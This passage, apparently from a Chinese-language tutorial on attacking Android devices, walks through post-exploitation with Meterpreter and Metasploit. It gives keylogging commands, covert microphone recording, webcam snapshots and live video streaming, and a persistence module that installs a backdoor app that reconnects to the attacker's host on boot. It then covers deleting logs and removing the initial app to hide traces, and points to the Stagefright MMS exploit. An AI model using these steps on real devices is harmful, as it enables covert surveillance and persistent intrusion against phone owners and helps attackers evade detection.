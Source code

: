 bash
# 在Meterpreter中
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
3. 实时监控
麦克风监听：使用record_mic命令录制音频。

摄像头拍照：使用webcam_snap命令拍照。

视频录制：使用webcam_stream命令开启实时视频流。

4. 持久化（Persistence）
为了在设备重启后仍然保持访问，我们需要建立持久化后门。

使用Metasploit的持久化模块：

bash
# 背景化当前会话
meterpreter > background

# 搜索Android持久化模块
msf6 > search android persistence

# 使用一个持久化模块，例如：
msf6 > use exploit/android/local/persistence

# 设置会话和Payload参数
msf6 > set SESSION <session_id>
msf6 > set LHOST <你的IP>
msf6 > set LPORT <新的端口>

# 执行
msf6 > exploit
这个模块会在设备上安装一个应用，并在开机时自动启动，连接回攻击者。

使用其他持久化技术：例如，利用系统启动脚本、计划任务等（需要root权限）。

5. 隐藏踪迹
清除日志：在Android中，应用日志通常位于/data/system/dropbox或/data/anr等目录，但需要root权限才能访问。我们可以删除这些日志。

卸载应用：如果通过恶意应用获得访问，在建立持久化后，可以卸载初始应用以隐藏。

玩法三：利用已知漏洞攻击移动设备系统服务
除了上述方法，我们还可以利用Android系统服务或预装应用中的漏洞进行攻击。这些漏洞通常影响系统组件，可能不需要用户交互。

例如，利用著名的Stagefright漏洞（CVE-2015-1538），通过发送一条特制的MMS短信就可以触发，用户甚至不需要查看短信。

